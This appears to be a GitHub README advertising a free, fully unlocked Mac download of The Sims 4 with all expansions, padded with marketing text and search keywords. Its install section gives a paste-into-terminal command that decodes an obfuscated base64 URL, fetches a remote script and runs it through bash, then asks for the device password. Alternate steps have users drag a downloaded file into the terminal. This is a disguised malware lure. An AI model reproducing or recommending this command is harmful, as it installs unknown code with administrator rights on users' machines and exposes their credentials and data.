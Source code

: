 # The Sims 4 Mac Download - The Ultimate Life Simulation Experience    

![The Sims 4 Mac Screenshot](https://cdn.cultofmac.com/wp-content/uploads/2019/05/ACCCD8A0-0225-4BB0-AB07-E5F875AD1039.jpeg)  

---  

## 🔽 Download The Sims 4 for Mac

[![Download Now](https://img.shields.io/badge/Download_Sims4-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/thesims4)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

--- 

## What is The Sims 4 for Mac?  

The Sims 4 is the premier life simulation game where you craft distinctive characters, design dream homes, and guide their lives with unparalleled freedom. This Mac edition delivers the complete package with all additional content seamlessly integrated and optimized for macOS performance.  

Unlike standard versions, this definitive edition includes **30+ expansion packs and DLCs** pre-installed, granting instant access to every world, career path, and gameplay enhancement. The game has been meticulously optimized for **Apple Silicon (M1/M2/M3 chips)**, featuring dramatically reduced loading times and buttery-smooth performance across all systems.  

Experience **total creative control** as you architect lavish estates with all build/buy items unlocked from the start, mold Sims with deep customization tools, and explore every expansion's content without limitations. The Sims 4 for Mac fully supports **custom content and mods**, empowering you to tailor your gameplay with thousands of community creations.  

From slice-of-life storytelling to fantastical adventures, The Sims 4 offers **endless narrative possibilities** on macOS. Enjoy cross-platform compatibility with Windows saves and take advantage of native macOS features like Metal graphics acceleration for stunning visual fidelity.  

Whether you're a longtime fan or new to the series, this Mac version provides the most complete and polished Sims experience available today - with all updates and bonus content included from the moment.  

![The Sims 4 Gameplay](https://imag.malavida.com/mvimgbig/download-fs/los-sims-4-18353-1.jpg)  

---  

## Key Features & Benefits  

- 🏡 **Complete Collection** with 30+ expansion packs  
- 🍏 **Optimized** for Apple Silicon (M1/M2) and Intel Macs  
- 🎭 **Unlimited customization** for Sims and homes  
- 🌎 **All worlds and careers unlocked**  
- 🛠️ **Full mod and custom content support**  
- ⚡ **Smooth performance** on macOS  

Whether you're a longtime fan or new to the series, The Sims 4 for Mac offers **endless hours** of creative gameplay and storytelling possibilities.  

---  

## 🔍 Keywords  

The Sims 4 for Mac, The Sims 4 Mac Download, The Sims 4 for Mac Download, The Sims 4 Mac, The Sims 4 Download Mac, The Sims 4 Download for Mac, the sims 4 full version, Mac Download The Sims 4, Download Mac The Sims 4, Download The Sims 4 Mac, Download The Sims 4 for Mac 
